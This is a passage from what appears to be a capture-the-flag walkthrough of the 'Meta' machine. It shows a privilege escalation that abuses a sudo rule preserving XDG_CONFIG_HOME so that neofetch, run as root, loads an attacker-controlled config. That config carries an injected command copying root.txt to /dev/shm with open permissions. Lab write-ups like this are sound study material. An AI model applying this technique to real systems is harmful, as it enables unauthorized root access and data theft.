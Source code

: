 The file is really big with hundreds of settings. From the docs it also says:

```text
Neofetch will by default create a config file at $HOME/.config/neofetch/config.conf on first run. 
This file contains options to control all aspects of the output. The config file allows you to
keep your customization between versions and allows you to easily share your customization with other people.
```

So this config file is for thomas, there will also be one for root because when we run neofetch with sudo we are running it as root. We need to find a way to get neofetch to use the config file in the thomas home folder when we run it as root.

## XDG_CONFIG_HOME

Going back to the sudo rights:

```text
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME
```

What is XDG_CONFIG_HOME? I found [this](https://specifications.freedesktop.org/basedir-spec/basedir-spec-latest.html) which says:

```text
$XDG_CONFIG_HOME defines the base directory relative to which user-specific configuration files
should be stored. If $XDG_CONFIG_HOME is either not set or empty, a default equal to
$HOME/.config should be used.
```

So we can force neofetch to look in a specific folder for the config file. We can simply do this:

```text
export XDG_CONFIG_HOME="$HOME/.config"

thomas@meta:~$ echo $XDG_CONFIG_HOME
/home/thomas/.config
```

## Root Flag

Now when we run neofetch as root it uses a config file we control. With neofetch being a bash script we can add our own commands to it. I just added a line right at the start to copy the root.txt file out to /dev/shm:

```text
thomas@meta:~$ more .config/neofetch/config.conf
cp /root/root.txt /dev/shm/root.txt && chmod 777 /dev/shm/root.txt
# See this wiki page for more info:
# https://github.com/dylanaraps/neofetch/wiki/Customizing-Info
print_info() {
    info title
<SNIP>
```
